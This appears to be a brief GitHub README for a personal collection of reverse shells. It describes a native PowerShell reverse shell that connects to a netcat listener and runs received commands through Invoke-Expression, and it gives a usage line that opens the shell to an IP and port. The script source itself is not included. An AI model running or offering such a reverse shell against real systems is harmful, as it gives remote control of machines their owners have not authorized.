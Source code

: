 # My Reverse Shells

# Powershell
Native PowerShell reverse shell to a netcat listener.

Supports commands up to 16384 bytes in length, if you need longer than modify the line where the System.Byte[] object is declared.

This passes all commands entered from the netcat listener to PowerShell's Invoke-Expression, so this supports powershell + cmd.exe commands. Errors are sent over the socket

Usage:

<code>./pwsh_revshell.ps1
pwsh_revshell -ip 127.0.0.1 -port 3333</code>
